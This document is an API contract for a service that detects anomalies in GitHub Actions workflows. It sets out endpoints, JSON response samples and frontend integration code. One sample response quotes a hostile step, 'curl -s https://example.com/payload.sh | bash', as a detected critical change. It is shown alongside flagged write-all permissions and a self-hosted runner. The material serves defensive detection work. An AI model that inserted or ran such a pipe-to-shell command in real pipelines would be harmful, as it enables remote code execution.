

# GitHub Actions Workflow Anomaly Detection - REST API Contract

## 1. Specification Overview

- **Service Title**: GitHub Actions Workflow Anomaly Detection API
- **API Version**: `1.0.0`
- **Default Base URL**: `http://localhost:8000` (or `http://127.0.0.1:8000`)
- **Interactive OpenAPI Documentation**: `http://localhost:8000/docs` (Swagger UI) / `http://localhost:8000/redoc` (ReDoc)
- **Target Frontend**: React Dashboard (Partner B, port 3000 or Vite port 5173)

---

## 2. Core Architectural & Security Principles

1. **Zero Code Execution**:
   Uploaded workflow files are treated strictly as **untrusted YAML document trees**. The backend uses PyYAML `safe_load` exclusively. Shell commands in `run:` blocks, steps, triggers, and actions are **never executed or scheduled**.
2. **Analysis-Only System**:
   The backend never creates Git commits, never invokes external GitHub APIs, and never triggers CI runs.
3. **Statistical Outlier Metric (NOT Malice Probability)**:
   The `anomaly_score` ($0.0 \le \text{score} \le 1.0$) measures the **degree of structural topological deviation** from baseline open-source CI/CD conventions. It is **never** presented as a "probability of malice". An anomalous score indicates unexpected structural characteristics (e.g. unexpected runner types, broad write permissions, unpinned actions) that warrant human review.
4. **CORS Pre-Configured**:
   Configured to accept cross-origin requests from `http://localhost:3000`, `http://localhost:5173`, `http://127.0.0.1:3000`, and `http://127.0.0.1:5173` with credentials and all standard HTTP methods.

---

## 3. API Endpoints



### 3.1. `GET /api/health`
Checks backend service availability, database connectivity, and ML model loading state.

#### Request
- **Method**: `GET`
- **URL**: `/api/health`
- **Headers**: None required

#### Success Response (`200 OK`)
```json
{
  "status": "healthy",
  "service": "github-actions-anomaly-detection",
  "version": "1.0.0",
  "model_loaded": true,
  "model_type": "IsolationForest",
  "model_version": "1.0.0",
  "total_features": 30,
  "database_connected": true
}
```

---

### 3.2. `POST /api/analyze` (File Upload)
Primary analysis endpoint. Accepts a target workflow YAML file and an optional baseline workflow YAML file via `multipart/form-data`.

#### Request Parameters (Form Data)
| Parameter | Type | Required | Description | Constraints |
| :--- | :--- | :---: | :--- | :--- |
| `file` | `UploadFile` | **Yes** | Target GitHub Actions workflow file to analyze. | `.yml` or `.yaml`, max 1 MB (1,048,576 bytes) |
| `baseline_file` | `UploadFile` | **No** | Optional baseline workflow file for AST comparative diffing. | `.yml` or `.yaml`, max 1 MB |

#### Single Workflow Analysis Success Response (`200 OK`)
*(When no `baseline_file` is provided)*
```json
{
  "analysis_id": "ana_7e8b91a23c4d",
  "filename": "ci.yml",
  "status": "success",
  "created_at": "2026-11-20T12:00:00.000000+00:00",
  "has_baseline": false,
  "baseline_filename": null,
  "workflow_summary": {
    "name": "CI Workflow",
    "total_jobs": 1,
    "job_ids": ["test"],
    "total_steps": 2,
    "triggers": ["push", "pull_request"],
    "runners": ["ubuntu-latest"],
    "permissions": {},
    "has_broad_write_permissions": false,
    "has_self_hosted_runner": false
  },
  "anomaly_score": 0.4125,
  "raw_score": 0.4738,
  "threshold": 0.5373,
  "is_anomaly": false,
  "classification": "normal",
  "score_interpretation": "Conforms to normal baseline patterns: Structural metrics are typical of standard GitHub Actions workflows.",
  "model_version": "1.0.0",
  "model_type": "IsolationForest",
  "extracted_features": {
    "job_count": 1.0,
    "step_count": 2.0,
    "avg_steps_per_job": 2.0,
    "max_steps_per_job": 2.0,
    "trigger_count": 2.0,
    "has_pull_request_target": 0.0,
    "has_workflow_dispatch": 0.0,
    "has_schedule": 0.0,
    "has_broad_write_permissions": 0.0,
    "has_id_token_write": 0.0,
    "has_contents_write": 0.0,
    "explicit_permission_count": 0.0,
    "has_permissions_block": 0.0,
    "has_self_hosted_runner": 0.0,
    "runner_types_count": 1.0,
    "github_hosted_ratio": 1.0,
    "total_dependencies_count": 0.0,
    "jobs_with_needs_count": 0.0,
    "total_actions_count": 1.0,
    "pinned_actions_count": 0.0,
    "unpinned_actions_count": 1.0,
    "unpinned_actions_ratio": 1.0,
    "third_party_actions_count": 1.0,
    "shell_step_count": 1.0,
    "shell_step_ratio": 0.5,
    "has_curl_or_wget_step": 0.0,
    "secrets_referenced_count": 0.0,
    "has_secret_references": 0.0,
    "environment_count": 0.0,
    "reusable_workflow_count": 0.0
  },
  "top_contributing_deviations": [
    {
      "feature": "shell_step_ratio",
      "value": 0.5,
      "z_score": 0.72,
      "description": "Ratio of shell/run steps relative to total steps"
    }
  ],
  "structural_differences": null,
  "comparison_summary": null,
  "findings": [
    "Workflow contains 1 discrete job(s) and 2 step(s) triggered by push, pull_request."
  ],
  "explanations": [
    "All structural features fall within typical baseline variance ranges for open-source workflows."
  ],
  "warnings": [
    "Action Pinning: Detected 1 third-party action(s) referencing mutable branch or tag names. Mutable tags can be re-pointed or compromised by upstream maintainers."
  ],
  "recommendations": [
    "Pin all third-party actions to immutable 40-character commit SHAs (e.g., actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11)."
  ]
}
```

#### Paired Workflow Comparison Success Response (`200 OK`)
*(When `baseline_file` is provided)*
Includes all fields above plus populated `structural_differences` and `comparison_summary`:
```json
{
  "analysis_id": "ana_4c9d1e2f3a8b",
  "filename": "modified_workflow.yml",
  "status": "success",
  "created_at": "2026-11-20T12:05:00.000000+00:00",
  "has_baseline": true,
  "baseline_filename": "baseline_workflow.yml",
  "workflow_summary": { ... },
  "anomaly_score": 0.7850,
  "raw_score": 0.5855,
  "threshold": 0.5373,
  "is_anomaly": true,
  "classification": "anomalous",
  "score_interpretation": "Significant structural outlier: Workflow structure deviates heavily from established baseline topology.",
  "model_version": "1.0.0",
  "model_type": "IsolationForest",
  "extracted_features": { ... },
  "top_contributing_deviations": [ ... ],
  "structural_differences": [
    {
      "category": "permission_change",
      "location": "permissions",
      "baseline_value": null,
      "modified_value": "write-all",
      "description": "Workflow permission elevated to broad write-all access across all repository scopes.",
      "severity": "critical",
      "requires_human_review": true
    },
    {
      "category": "runner_change",
      "location": "jobs.build.runs-on",
      "baseline_value": "ubuntu-latest",
      "modified_value": "self-hosted",
      "description": "Job runner changed from GitHub-hosted environment 'ubuntu-latest' to 'self-hosted'.",
      "severity": "high",
      "requires_human_review": true
    },
    {
      "category": "step_addition",
      "location": "jobs.build.steps[2]",
      "baseline_value": null,
      "modified_value": "curl -s https://example.com/payload.sh | bash",
      "description": "Added shell step executing remote script download via curl/wget piped to shell.",
      "severity": "critical",
      "requires_human_review": true
    }
  ],
  "comparison_summary": {
    "total_differences": 3,
    "critical_differences": 2,
    "high_differences": 1,
    "medium_differences": 0,
    "low_differences": 0,
    "info_differences": 0,
    "has_structural_changes": true
  },
  "findings": [
    "Workflow contains 1 discrete job(s) and 3 step(s) triggered by push.",
    "Structural comparison against baseline revealed 3 difference(s) (2 critical, 1 high severity)."
  ],
  "explanations": [
    "Statistical feature deviations that most influenced the structural anomaly score:",
    "- has_broad_write_permissions = 1.0 (z-score: 3.16): Workflow has broad write-all permissions",
    "- has_self_hosted_runner = 1.0 (z-score: 2.85): Workflow utilizes self-hosted runner infrastructure"
  ],
  "warnings": [
    "Excessive Permissions: Workflow or job configures broad write permissions ('write-all').",
    "Runner Configuration: Workflow specifies self-hosted runners.",
    "Network Script Execution: Shell steps execute network utilities ('curl' or 'wget').",
    "Comparative Deviation [CRITICAL]: Workflow permission elevated to broad write-all access across all repository scopes at permissions",
    "Comparative Deviation [HIGH]: Job runner changed from GitHub-hosted environment 'ubuntu-latest' to 'self-hosted' at jobs.build.runs-on",
    "Comparative Deviation [CRITICAL]: Added shell step executing remote script download via curl/wget piped to shell at jobs.build.steps[2]"
  ],
  "recommendations": [
    "Apply the principle of least privilege: replace 'write-all' with specific scoped permissions (e.g., 'contents: read').",
    "Ensure self-hosted runners are ephemeral, containerized, and restricted to trusted repository workflows.",
    "Download external binaries using verified GitHub Actions or verify cryptographic checksums before executing shell scripts."
  ]
}
```

---

### 3.3. `POST /api/analyze/json` (Raw String Submission)
Alternative endpoint for web editors (e.g. Monaco Editor / CodeMirror) to submit raw YAML strings without creating a multipart form.

#### Request Body (`application/json`)
```json
{
  "workflow_yaml": "name: CI\non: [push]\njobs:\n  build:\n    runs-on: ubuntu-latest\n    steps:\n      - uses: actions/checkout@v4",
  "filename": "editor_workflow.yml",
  "baseline_yaml": null,
  "baseline_filename": null
}
```

#### Success Response
Identical schema to `AnalysisResponse` above.

---

### 3.4. `GET /api/history`
Retrieves paginated historical analysis records for the History tab/table view.

#### Query Parameters
| Parameter | Type | Required | Default | Description |
| :--- | :--- | :---: | :---: | :--- |
| `limit` | `integer` | No | `50` | Maximum number of items to return (1 to 200). |
| `offset` | `integer` | No | `0` | Number of items to skip for pagination. |

#### Success Response (`200 OK`)
```json
{
  "items": [
    {
      "analysis_id": "ana_4c9d1e2f3a8b",
      "filename": "modified_workflow.yml",
      "has_baseline": true,
      "baseline_filename": "baseline_workflow.yml",
      "status": "success",
      "anomaly_score": 0.7850,
      "classification": "anomalous",
      "score_interpretation": "Significant structural outlier...",
      "total_jobs": 1,
      "total_steps": 3,
      "total_differences": 3,
      "high_severity_differences": 3,
      "created_at": "2026-11-20T12:05:00.000000+00:00"
    }
  ],
  "total": 1,
  "limit": 50,
  "offset": 0
}
```

---

### 3.5. `GET /api/results/{analysis_id}`
Retrieves the full detailed analysis result for a specific previous run. Useful for permalinks, refresh resilience, and detail modal views.

#### Path Parameters
| Parameter | Type | Required | Description |
| :--- | :--- | :---: | :--- |
| `analysis_id` | `string` | **Yes** | Unique identifier (e.g. `ana_4c9d1e2f3a8b`). |

#### Success Response (`200 OK`)
Full `AnalysisResponse` object.

#### Not Found Response (`404 Not Found`)
```json
{
  "error": "Request Error",
  "detail": "Analysis result with ID 'ana_invalid123' not found.",
  "code": "HTTP_404",
  "timestamp": "2026-11-20T12:10:00.000000+00:00"
}
```

---

## 4. Error Responses & HTTP Status Codes

The API returns consistent error JSON objects:
```json
{
  "error": "Request Error",
  "detail": "Human-readable explanation of what failed.",
  "code": "HTTP_400",
  "timestamp": "2026-11-20T12:00:00.000000+00:00"
}
```

| HTTP Status | Condition | Example Detail |
| :--- | :--- | :--- |
| `400 Bad Request` | Invalid file extension | `"Invalid file extension '.txt'. Only .yml and .yaml workflow files are accepted."` |
| `400 Bad Request` | Malformed YAML syntax | `"YAML syntax parsing error: mapping values are not allowed here at line 4"` |
| `400 Bad Request` | Empty file | `"File 'empty.yml' is empty or contains only whitespace."` |
| `413 Payload Too Large` | Exceeds 1 MB limit | `"File 'huge.yml' exceeds maximum allowed size limit of 1048576 bytes (1 MB)."` |
| `404 Not Found` | Unknown analysis ID | `"Analysis result with ID 'ana_unknown' not found."` |
| `500 Internal Server Error`| Server-side unexpected failure | `"Analysis pipeline error: ..."` |

---

## 5. Frontend Integration Guide (Partner B)

### 5.1. Axios Upload Example (`POST /api/analyze`)
```typescript
import axios from "axios";

export async function analyzeWorkflowFiles(
  targetFile: File,
  baselineFile?: File
) {
  const formData = new FormData();
  formData.append("file", targetFile);
  if (baselineFile) {
    formData.append("baseline_file", baselineFile);
  }

  const response = await axios.post("http://localhost:8000/api/analyze", formData, {
    headers: {
      "Content-Type": "multipart/form-data",
    },
  });

  return response.data; // Type: AnalysisResponse
}
```

### 5.2. Fetch Direct JSON Example (`POST /api/analyze/json`)
```typescript
export async function analyzeRawYaml(yamlText: string, filename = "workflow.yml") {
  const response = await fetch("http://localhost:8000/api/analyze/json", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({
      workflow_yaml: yamlText,
      filename: filename,
    }),
  });

  if (!response.ok) {
    const errorData = await response.json();
    throw new Error(errorData.detail || "Analysis failed");
  }

  return await response.json();
}
```

### 5.3. Recommended UI Visualizations

1. **Anomaly Score Gauge / Meter**:
   - `0.00 - 0.54`: **Normal Structural Baseline** (Green `#10b981`). Conforms to open-source CI/CD norms.
   - `0.55 - 0.74`: **Moderate Structural Deviation** (Amber `#f59e0b`). Noticeable atypical features present.
   - `0.75 - 1.00`: **Significant Structural Outlier** (Red `#ef4444`). High deviation across multiple dimensions.
   - *Label*: Display as **"Structural Anomaly Index: 0.78"**, never "Probability of Malice: 78%".

2. **AST Structural Diff View**:
   - Render the `structural_differences` array in a side-by-side or unified table.
   - Badge `category` (e.g. `permission_change`, `runner_change`, `step_addition`).
   - Highlight `severity`:
     - `critical`: Red pill
     - `high`: Orange pill
     - `medium`: Yellow pill
     - `low` / `info`: Gray/Blue pill
   - Render `baseline_value` $\rightarrow$ `modified_value` clearly.

3. **Security Triage Accordion**:
   - Render `warnings` in a prominent warning card.
   - Render `recommendations` in an actionable checklist format for developer remediation.
   - Render `top_contributing_deviations` as a horizontal bar chart showing z-score deviations.
